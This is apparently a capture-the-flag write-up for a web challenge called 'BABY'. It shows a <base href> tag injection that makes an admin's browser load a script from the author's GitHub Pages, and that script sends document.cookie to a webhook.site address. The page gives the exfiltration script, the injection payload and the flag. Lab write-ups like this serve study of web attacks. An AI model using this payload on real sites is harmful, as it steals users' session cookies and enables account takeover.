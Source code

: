 # webhacking BABY Solution

Here we can inject tag, we can inject this:
`<base href="ourDomain.com">`

Then, the admin will go there.
I just put `script.js` on my github pages, this is the `script.js` file:
```
window.location.href = "https://webhook.site/b9845d0e-4624-4ee7-89c9-90bfd2b1d3eb/?cookies="+document.cookie;
```

And then, just give this payload to the admin:
```
?inject=<base href="https://avishaigonen123.github.io/">
```


![win picutre](./images/BABY.png)


**Flag:** ***`FLAG{base_is_basic}`*** 

